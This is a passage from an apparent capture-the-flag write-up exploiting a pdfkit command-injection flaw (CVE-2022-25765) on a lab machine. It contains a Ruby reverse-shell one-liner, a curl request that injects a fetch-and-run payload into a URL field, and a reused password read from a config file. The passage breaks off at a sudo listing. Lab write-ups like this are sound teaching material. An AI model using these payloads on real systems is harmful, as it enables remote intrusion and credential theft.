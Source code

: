#### CVE-2022-25765

After some research, we determine that this version of _pdfkit_ is vulnerable to CVE-2022-25765, meaning we could potentially inject OS commands as explained [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Let's try exploiting the bug to establish a reverse shell session with [PwnCat](https://github.com/calebstewart/pwncat). We'll use a reverse shell written in Ruby because we know that Ruby is installed since PDFKit is written in Ruby.

```bash
# bryan@attacker
mkdir -p share && cd share
rb="require 'socket';spawn('sh',[:in,:out,:err]=>TCPSocket.new('$lhost',8443))"
echo "$rb" > index.html # Write ruby reverse shell to web index
python3 -m http.server --bind $lhost 8080 &>/dev/null & # Serve payload
pwncat-cs -m linux -l $lhost 8443 # PwnCat listener | Install: `pip3 install pwncat-cs`
```
{:.nolineno}

```bash
# bryan@attacker
curl precious.htb -d "url=http://%2520%60curl%20$lhost:8080|ruby%60" # Trigger payload
```
{:.nolineno}

Once we trigger the payload, Our PwnCat handler gets a callback and stabilizes the shell.

## Privilege Escalation

### Ruby

Our reverse shell session is in the context of the user _ruby_. In this user's home directory, we find the file `~/.bundle/config`{:.filepath} which contains potential credentials.

```bash
# ruby@precious.htb (PwnCat)
find ~ -type f # We find a configuration file of sorts
cat ~/.bundle/config # Let's read it
```
{:.nolineno}

The user _henry_, associated with the password `Q3c1AqGHtoI0aXAYFH`, is also present on the current machine with the same password.

```bash
# bryan@attacker
pwncat-cs ssh://henry@precious.htb # password is Q3c1AqGHtoI0aXAYFH
```
{:.nolineno}

### Henry

As _henry_, we can execute a specific command as root via `sudo`.

```bash
# henry@precious.htb (SSH)
sudo -l
```
{:.nolineno}
>
```
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
{:.nolineno}
